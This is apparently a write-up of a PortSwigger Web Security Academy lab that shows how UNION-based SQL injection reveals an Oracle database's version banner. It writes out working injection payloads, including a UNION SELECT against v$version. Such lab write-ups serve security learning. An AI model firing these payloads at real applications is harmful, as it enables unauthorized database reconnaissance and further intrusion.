



# SQL injection attack, querying the database type and version on Oracle

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (Oracle),” we demonstrated that an attacker can leak detailed version strings of the underlying Oracle Database by appending a crafted `UNION SELECT` clause to a product-search request.
Because the application simply tacks raw query-string text onto its `WHERE` clause, we were able to join the results of `V$VERSION` to the normal product list and have the database hand back its own build information.

---

## Description

## Why This Matters to You

* **Targeted exploitation:** Exact version numbers allow attackers to map your database against public CVEs and selectively fire exploits that are known to work.
* **Defence evasion:** Knowledge of edition and patch level helps adversaries predict which auditing or security features are enabled.

---

## Step-by-Step Walk-Through

| # | What we did (payload shown URL-encoded when required)                                                               | Intended SQL generated by the app                                                          | What actually happens & why                                                                                                                              |
| - | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** Baseline request: `/filter?category=Gifts`                                            | `SELECT * FROM someTable WHERE category='Gifts'`                                            | Normal list of “Gifts” products returned.                                                                                                                 |
| 2 | **Counted columns** with `ORDER BY` (or `UNION NULL,NULL`) – found **2 columns**.                                   | —                                                                                          | Knowing column count is essential for a valid `UNION`.                                                                                                   |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – discovered both columns accept strings.            | —                                                                                          | Confirms which positions can display arbitrary text.                                                                                                     |
| 4 | **Queried Oracle version** with `/filter?category=Gifts'/**%20**UNION%20SELECT%20'a',banner%20FROM%20v$version--` | `SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a', banner FROM v$version--'` | The second column now prints the full Oracle banner (e.g., `Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production`). Lab flags success. |

---

> Queried Oracle version

---

## Observable Output

| Test / Payload                             | Visible result                                   | What it proved                          |
| ------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| Baseline (`category=Gifts`)                 | Normal product grid                              | Application behaves as intended.        |
| `UNION 'a','b'`                            | Page prints “a  b”                               | Column count & text placement verified. |
| `UNION SELECT 'a',banner FROM v$version--` | Oracle version banner strings appear on the page | **Database disclosure** confirmed.      |

---

> The complete Oracle banner output
---

## Conclusion

By chaining basic UNION-based SQL injection techniques we extracted the exact Oracle build string—information invaluable to any attacker planning further compromise. 
